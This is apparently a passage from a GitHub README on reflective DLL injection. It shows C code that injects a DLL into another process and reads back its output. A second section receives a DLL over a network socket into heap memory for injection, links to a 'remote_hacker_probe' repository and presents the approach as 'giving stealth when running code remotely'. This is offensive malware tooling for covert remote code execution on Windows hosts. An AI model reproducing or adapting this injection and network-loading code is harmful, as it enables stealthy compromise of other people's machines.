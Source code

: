 ```c
		if (!hModule)
			BREAK_WITH_ERROR("Failed to inject the DLL");

		printf( "[+] Injected the '%s' DLL into process %d.", cpDllFile, dwProcessId );
		
		WaitForSingleObject( hModule, -1 );

		if (readOutput) {
			printf("\n[+] DLL Output : %s\n", ReadReflectiveDllOutput(seconds).c_str());
		}
		

	} while( 0 );


	if( lpBuffer )
		HeapFree( GetProcessHeap(), 0, lpBuffer );

	if( hProcess )
		CloseHandle( hProcess );


	
	
	

	return 0;
}
```

### Loading the DLL over socket
The DLL can also be loaded over a network using Sockets, And injected.

Sample code :

https://github.com/quantumcored/remote_hacker_probe/blob/main/probe/windows/ProbeCpp.cpp#L257
```c
unsigned char* DLL = (unsigned char*) HeapAlloc(GetProcessHeap(), 0, expected + 1); // This is where DLL will be stored
// Where 'expected' is the Size of the dll.

            memset(recvbuf, '\0', BUFFER);
            ZeroMemory(DLL, expected + 1);
            int total = 0;

            do {
                fsize = recv(sockfd, recvbuf, BUFFER, 0);
                if (fsize == SOCKET_ERROR && WSAGetLastError() == WSAECONNRESET)
                {
                    connected = FALSE;
                    // printf("[X] Connection interrupted while receiving DLL\n");
                }
                else if (fsize == 0) {
                    break;
                }
                else {
                    memcpy(DLL + total, recvbuf, fsize);
                    total += fsize;
                }
            } while (total != expected);
// Continue Injecting the DLL.
```
Giving stealth when running code remotely.
